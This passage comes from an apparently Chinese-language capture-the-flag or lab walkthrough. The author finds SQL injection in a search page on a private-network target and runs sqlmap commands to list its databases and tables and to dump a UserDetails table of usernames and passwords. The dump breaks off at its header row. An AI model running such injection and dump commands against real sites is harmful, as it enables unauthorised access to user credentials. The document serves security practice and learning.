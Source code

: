 查看80端口，说让我们看看你其他目录

![upload successful](https://lnng.top/images/pasted-280.png)

**upload successful**

  
测试了一下manage功能似乎没有啥问题，再search的地方发现了sql注入  

![upload successful](https://lnng.top/images/pasted-281.png)

**upload successful**

  
sqlmap直接跑一下,跑出三个数据库

```
sqlmap -u "http://192.168.124.153/results.php" --data "search=" --dbs
```

![upload successful](https://lnng.top/images/pasted-282.png)

**upload successful**

  
继续跑表

#### [](https://lnng.top/posts/2ea3.html#users%E7%9A%84 "users的")users的

```
sqlmap -u "http://192.168.124.153/results.php" --data "search=" -D users --tables
```

![upload successful](https://lnng.top/images/pasted-283.png)

**upload successful**

```
sqlmap -u "http://192.168.124.153/results.php" --data "search=" -D users -T UserDetails --dump
```

```
+------+------------+---------------------+-----------+-----------+---------------+
| id   | lastname   | reg_date            | username  | firstname | password      |
+------+------------+---------------------+-----------+-----------+---------------+
